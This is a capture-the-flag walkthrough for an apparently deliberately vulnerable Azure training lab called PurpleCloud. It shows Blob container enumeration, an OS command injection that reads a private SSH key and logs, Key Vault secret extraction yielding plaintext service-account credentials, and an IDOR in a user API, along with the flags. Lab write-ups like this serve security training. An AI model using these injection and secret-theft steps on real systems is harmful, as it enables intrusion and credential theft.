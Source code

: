 # PurpleCloud Offensive Manual

## Challenge 1: Blob Hunt 
* Entry Point is the PurpleWiki static webapplication:

![](https://i.imgur.com/ztYAkZP.png)

* Look at the page source code and realize that the images that are present in some of the wiki entries are included via an external link:
```https://purpleconfidential.blob.core.windows.net/webcontent/databreach_image.png```

![](https://i.imgur.com/1adty2B.png)
* This indicates, that the image is included from a custom Azure Blob Storage resource.
* Try to enumerate the storage by appending ```/restype=container&comp=list``` to the container link:
```https://purpleconfidential.blob.core.windows.net/webcontent/restype=container&comp=list```
* The request returns an XML file as response which provides a listing of the container contents:

![](https://i.imgur.com/02AF02G.png)

* Note that the container is set to anonymous read access which means you can read all the files by visiting the according URL.
* Read ```/webcontent/chat.txt``` to get the following hints:
    * The name of an API endpoint can be found in a log file on a virtual machine (VM) - needed in challenge 4
    * It is possible to access a Key Vault from the VM - needed in challenge 3
* Visit /webcontent/flag/1.txt to get the flag of this challenge.
> PURPLE{PU8L1C_BL08}

## Challenge 2: FindMe.log
* Entry Point is the Purple Blog Webapplication:

![](https://i.imgur.com/aFNpl3P.png)
* Note that the newsletter section includes user input fields:

![](https://i.imgur.com/saZrqEC.png)
* Attempt to cause an error by choosing a birth date that is in the future:

![](https://i.imgur.com/ME9nyzu.png)
* After submitting the form, realize you are getting redirected to the following page:
```/api/process.php?```
* Attempt to exploit a simple OS command injection by the following and notice that it works: 
```process.php?cmd=whoami```
* Execute a ```ls``` command to access the local filesystem of the Azure VM Resource and look at the content of the localadmin home directory: 
```cmd=ls%20../../../../home/localadmin/```
* Note there is a file ```id_rsa``` and a directory ```log```
* Look at the contents of the ```log``` directory:
```cmd=ls%20../../../../home/localadmin/log```
* Recognize there is a file ```api.log``` in the directory and read it:
```cmd=cat%20../../../../home/localadmin/log/api.log```
* find the name the API endpoint in the log file
* Now go back to the home directory and read the ```id_rsa``` file:
```cmd=cat%20../../../../home/localadmin/id_rsa```
* Notice that this is a private key file and save the contents from the page source code (to keep the proper format) as a .pem file.
* After retrieving the name of the API endpoint and the private key file you solved this challenge. 

## Challenge 3: What is the key to the vault?
* Get the IP of the VM (e.g. on windows use ```nslookup.exe purpleblog.westeurope.cloudapp.azure.com```):
```
Name:    purpleblog.westeurope.cloudapp.azure.com
Address:  52.233.176.34
```
* Connect to the VM via SSH as **localadmin** and authenticate using the private key file from the previous challenge (you can either use a commandline or tools like Putty).
* Note that there is an Azure Managed Identity configured allowing you to access a Key Vault from the VM.
* Start with getting the name of the Key Vault by enumerating all Key Vaults in the environment:
```az keyvault list```

![](https://i.imgur.com/jaU7Mks.png)
* After obtaining the name of the Key Vault you can start to enumerate the secrets stored in the resource by using the following command: 
```az keyvault secret list --vault-name purple-secrets```

![](https://i.imgur.com/Dpe44B7.png)

* In the output you can see that in the Key Vault there are two secrets stored, namely **user** and **credential**.
* Now that you have obtained the names of the secrets, you can use them to read the contents with the following command: 
```az keyvault secret show --vault-name purple-secrets -n user```
```az keyvault secret show --vault-name purple-secrets -n credential```

![](https://i.imgur.com/c8PrAc7.png)

![](https://i.imgur.com/kAbAikS.png)

* From the output you can retrieve the value of the secrets in plaintext which are:
    * Value of secret **user**: servicepurplecloud@cloudexec.onmicrosoft.com
    * Value of secret **credential**: PurpleCloudDragon123
* You got yourself plaintext credentials for the PurpleCloud service account
* Use these credentials to login to the azure portal:

![](https://i.imgur.com/g2T1jR4.png)
* Once logged in, navigate to 'All resources'.

![](https://i.imgur.com/r3tk6Vo.png)
* Note that the only resource to which the service account has access to is an Azure Cosmos DB account with the name **purple-db**.

![](https://i.imgur.com/7O3aei5.png)
* Click on the resource to access the properties and navigate to the **Data Explorer**.
* Open the **PurpleDB** database.
* Open the **ServiceData** container.
* Open Items and note there is one item with the /type **flag**.
* After selecting this item to open it, you can find the flag for this challenge in the **value** field.

![](https://i.imgur.com/4rj2yVI.png)

> PURPLE{K3Y_T0_UN1V3R53}


## Challenge 4: Fetch the Flag (API Edition)
* The entry point for this challenge is the API endpoint accessible via https://purplecloud-api.azurewebsites.net/api/user (the name of the endpoint is the first flag vom challenge 2)
* Note that you can't access some of the existing profiles (e.g. request ```/api/user?id=1```):

![](https://i.imgur.com/XWUGiJh.png)
* Some other requests return a valid response (e.g. request ```/api/user?id=3```):

![](https://i.imgur.com/YmNXlyi.png)
* Attempt to request the user with the ID 8 with the following API request:
```https://purplecloud-api.azurewebsites.net/api/user?id=8```

![](https://i.imgur.com/TiU5fj5.png)
* Recognize the addiontal field **supervisor** in the response.
* Now attempt to request the user with the ID 42 (request ```/api/user?id=42```)and note that this user cannot be found: 

![](https://i.imgur.com/r2l9Pgd.png)
* Take one step back and request the user with the ID 8 (request ```/api/user?id=8```) again
* Now note that there is an IDOR vulnerability which allows you to switch to any profile by editing the ID in the URL
* Attempt to access the profile of the user with the ID 42 using this approach and find the flag.

![](https://i.imgur.com/LiljMTg.png)

> PURPLE{1NS3CUR3_4P1}
